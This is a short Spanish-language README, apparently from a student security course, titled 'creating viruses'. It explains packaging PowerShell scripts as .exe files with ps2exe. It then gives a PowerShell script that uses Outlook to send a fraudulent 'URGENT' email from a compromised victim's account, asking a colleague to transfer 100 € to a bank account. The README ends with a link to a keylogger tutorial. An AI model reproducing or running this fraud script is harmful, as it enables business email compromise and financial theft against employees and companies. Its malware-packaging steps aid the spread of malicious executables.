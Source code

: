 # CREACIÓN DE VIRUS

Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Targe file.
<img src="https://www.google.com/search?q=imagen+win-ps2exe&tbm=isch&ved=2ahUKEwi77ZWbmNXuAhVcMRoKHdSdB3oQ2-cCegQIABAA&oq=imagen+win-ps2exe&gs_lcp=CgNpbWcQA1CEJliEJmDXJ2gAcAB4AIABfogBfpIBAzAuMZgBAKABAaoBC2d3cy13aXotaW1nwAEB&sclient=img&ei=BIIeYLvbD9ziaNS7ntAH&bih=625&biw=1366&rlz=1C1CHBF_esES874ES874#imgrc=_o8eA3RjS8beKM" />

## PHISING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.
```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```








## CREACIÓN DE KEYLOGGER (PYTHON)
https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md
